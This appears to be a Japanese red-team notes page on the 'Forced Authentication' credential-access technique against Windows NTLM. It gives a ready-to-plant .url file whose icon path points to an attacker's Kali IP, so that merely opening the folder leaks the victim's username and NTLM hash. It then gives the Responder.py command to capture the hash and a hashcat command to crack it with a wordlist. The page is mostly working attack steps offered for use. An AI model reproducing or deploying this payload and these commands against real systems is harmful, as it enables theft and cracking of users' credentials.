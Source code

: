 # Credential Access

## Forced Authentication

### 概要

- NTLM認証で利用されるNTLMハッシュの取得
- リンクを踏ませる(HTMl埋め込み)
- リンクファイルを標的端末に配置、エクスプローラー等が配置したファイルを参照することで認証情報を送信(ファイルを実行する必要なし)

#### 攻撃手法

- SMBプロトコルでリモートリソースへアクセスする際、まずNTLM認証を試みる。
- 認証を行う際にNTLMハッシュ情報が自動的にアクセス先に送信される。
- C2へアクセスするようなリンクファイル等を配置してアクセスさせる。
- C2に送信されるNTLMハッシュを受け取れるプログラムが動いていれば標的のNTLMハッシュ値を取得できる。

#### 手順(LINKファイル)

- 下記の内容を記述した .urlファイルを標的の端末に配置

``` js
    [InternetShortcut]
    URL=whatever
    WorkingDirectory=whatever
    IconFile=¥¥[kaliのIPアドレス]¥%USERNAME%.icon
    IconIndex=1
```

- kaliでResponder.pyを起動

``` shell
    Python2 Responder.py -I ens
```

リンクファイルのあるフォルダを開くと IP、Username、NTLMハッシュがkaliに送信される。

- 受信したNTLMハッシュをテキストファイルにコピー
- kaliでhashcatを使用してハッシュの解析

```shell
    hashcat -m 5600 -a 0 [hashファイル] /usr/share/wordlists/rockyou.txt --force --potfile-disable
    # -mはハッシュタイプ 5600はNTLMv2
    # -aはアタックモード 0は辞書攻撃 3でブルートフォース
    # --potfile-disable 解析結果をpotファイルに書き込むのを無視
```

[hashcat wiki](https://hashcat.net/wiki/doku.php?id=hashcat)
